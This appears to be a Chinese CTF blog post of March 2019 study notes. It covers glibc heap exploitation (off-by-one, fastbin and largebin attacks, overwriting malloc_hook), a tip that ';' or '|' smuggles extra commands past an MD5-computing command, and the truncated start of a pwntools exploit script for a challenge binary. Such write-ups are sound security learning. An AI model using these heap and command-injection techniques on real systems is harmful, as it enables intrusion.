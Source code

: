 ```yaml
---
layout: post
title: "三月刷题记录"
date: 2019-04-02
categories: jekyll update
---
```


### 三月刷题记录
+ http://westerns.tokyo/writeups/0ctf2018quals.html#0ctf-quals-2018-writeup
+ topchunk是放在<main_arena+88>里的。
+ 堆溢出的六种利用方法：http://www.pwndog.top/2018/09/11/%E5%A0%86%E6%BA%A2%E5%87%BA%E7%9A%84%E5%85%AD%E7%A7%8D%E5%88%A9%E7%94%A8%E6%89%8B%E6%B3%95/
+ 堆块结构：https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/heap_structure/
+ ollvm的一些学习参考：https://mabin004.github.io/2018/08/23/ollvm%E5%AD%A6%E4%B9%A0/
+  ollvm的一些学习参考：https://bbs.pediy.com/thread-225756.htm
### 0ctf babyheap
该题做法主要是fastbin attack中的off by one，主要用了覆盖size位变大，然后free再泄露得到libc地址，通过两次free fastbin得到heap地址。
然后修改<main_arena+88>里的topchunk为malloc__hook上面的地址(这个可以修改fastbin里面的fd，然后malloc两次，就可以malloc到你想要的块上了，注意堆头大小需要0x56而不是0x55)，然后malloc

### LCTF 2ez4u（largebin attack）
+ http://eternalsakura13.com/2018/03/21/lctf2/

### house of orange学习

### 2019安恒杯2月月赛--pwn解
```
setvbuf(stdout, 0, 2, 0);
setvbuf(stdin, 0, 2, 0);
```
终于知道这个的用处了，对stdou和stdin设置无缓冲,防止他们对堆的干扰.
参考链接：https://www.cnblogs.com/aaronLinux/p/6765145.html

+ 计算MD5值的可以用`;   ;`或者`|  |`来进行绕过
### hackmoon

下面是详细脚本：
```
from pwn import *

context(os='linux',arch='amd64',aslr = 'False')
local = 1
#log_level='debug'

if local:
	p = process("./hackmoon")#,env={'LD_PRELOAD':'./libc_x64.so.6'})
	elf = ELF("./hackmoon")
	#libc = ELF('./libc_x64.so.6')
else:
	#p = remote('192.168.210.11',11006)
	p = remote('chall.pwnable.tw',10001)
	elf = ELF("./hackmoon")
	#libc = ELF('./libc_x64.so.6')

def add(size, content):
    print p.recvuntil('Your choice :')
    p.sendline('1')
    print p.recvuntil('moon size :')
    p.sendline(str(size))
    print p.recvuntil('Content :')
```